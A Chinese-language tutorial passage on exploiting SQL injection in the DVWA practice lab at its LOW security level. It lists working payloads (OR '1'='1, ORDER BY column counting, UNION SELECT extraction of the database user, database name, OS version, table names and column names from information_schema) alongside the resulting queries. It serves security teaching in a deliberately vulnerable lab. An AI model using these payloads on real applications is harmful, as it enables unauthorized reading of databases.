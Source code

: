 修改 ```/etc/php.ini``` 配置文件中的 ```allow_url_include=On```。


## SQL 注入

首先在 ```DVWA Security => Security Level``` 中设置，将安全级别设置为 ```LOW``` ，然后在 ```SQL Injection``` 中进行测试；其中 User ID 为 1~5，对应的代码在 ```vulnerabilities/sqli/source``` 中，分别对应了不同的安全等级。

### Low

例如，对于 ```LOW``` 级别，对应的 SQL 代码如下。

{% highlight text %}
SELECT first_name, last_name FROM users WHERE user_id = '$id';
{% endhighlight %}

简单看下常见的 SQL 注入。

{% highlight text %}
----- 正常，1
SELECT first_name, last_name FROM users WHERE user_id = '1';

----- 判断是字符型还是数字型，1' or '1'='1，输出所有列，为字符型
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';

----- 查看SQL中查询列数，1' ORDER BY N -- ，N从1递增开始尝试；另外，注意最后有个空格
SELECT first_name, last_name FROM users WHERE user_id = '1' ORDER BY 1 -- ';

----- 确定字段的显示顺序，1' UNION SELECT 1,2 #
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT 1,2 #;

----- 获取当前用户以及库信息，1' AND 1=2 UNION SELECT user(),database() #
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=2 UNION SELECT user(),database() #

----- 获取操作系统信息，1' AND 1=2 UNION SELECT 1,@@global.version_compile_os FROM mysql.user #
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=2 UNION
    SELECT 1,@@global.version_compile_os FROM mysql.user #;

----- 获取库中的表名称，如下仅显示注册的内容
1' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() #

----- 获取表中的列名称
1' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name='users' #
{% endhighlight %}



实际上，在确认了列数之后，就可以通过 ```vesion()```、```database()``` 等函数查看系统信息，也可以执行查询 SQL 语句。







{% highlight text %}
{% endhighlight %}
